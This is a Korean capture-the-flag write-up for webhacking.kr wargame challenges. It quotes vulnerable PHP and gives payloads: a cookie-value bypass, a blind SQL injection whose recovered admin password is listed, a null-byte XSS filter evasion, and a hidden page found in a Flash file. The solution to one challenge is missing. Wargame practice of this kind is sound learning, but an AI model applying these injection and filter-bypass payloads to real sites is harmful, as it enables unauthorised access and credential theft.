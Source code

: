 # webhacking.kr write-up

## Challenge 1
```php
$password="????";
if(eregi("[^0-9,.]",$_COOKIE[user_lv])) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>=6) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>5) @solve();
echo("<br>level : $_COOKIE[user_lv]");
```
`user_lv`가 6 이상이면 `user_lv`가 1로 되돌아가고, `user_lv`가 5보다 크면 풀리게 된다.
5 < `user_lv` < 6 이면 된다는 것이다. `user_lv`가 5.xx면 풀릴 것 같다.
### payload
`document.cookie = "user_lv=5.1"`

## Challenge 18
```php
if(eregi(" |/|\(|\)|\t|\||&|union|select|from|0x",$_GET[no])) exit("no hack"); 
$q=@mysql_fetch_array(mysql_query("select id from challenge18_table where id='guest' and no=$_GET[no]")); 
if($q[0]=="guest") echo ("hi guest"); 
if($q[0]=="admin") { 
    @solve(); 
    echo ("hi admin!"); 
} 12
```

## Challenge 21
`BLIND SQL INJECTION` 문제라고 페이지에서 알려주고 있다. no에 1과 2를 넣었을 때만 `True`라고 뜨는 것을 보아 2개의 계정만 Injection하면 될 것 같다.
간단하게 파이썬으로 프로그램 짜서 풀었다.

### payload
[https://github.com/uhmtoto/Exploit-Code/blob/master/webkr_21.py](https://github.com/uhmtoto/Exploit-Code/blob/master/webkr_21.py)
### result
```
no1 id : guest
no1 pw : guest
no2 id : admin
no2 pw : blindsqlinjectionkk
```

## Challenge 23
`Your mission is to inject <script>alert(1);</script>`이라고 한다.
그냥 GET으로 넘길 때 code값 맨 앞에 NULL(%00)을 추가해 주면 풀린다.
### payload
`http://webhacking.kr/challenge/bonus/bonus-3/index.php?code=%00<script>alert(1);</script>`

## Challenge 58
문제 페이지에 들어가면 플래시로 되어있는 로그인 창이 뜬다. 게싱으로 몇 가지 패스워드를 넣어봤지만 되지 않아서 플래시 파일을 다운로드 받은뒤 iHex로 열었다. 파일 맨 뒷 부분에 보면 `http://webhacking.kr/challenge/web/web-35/g1v2m2passw0rd.php`이 있다. 들어가면 문제가 풀린다!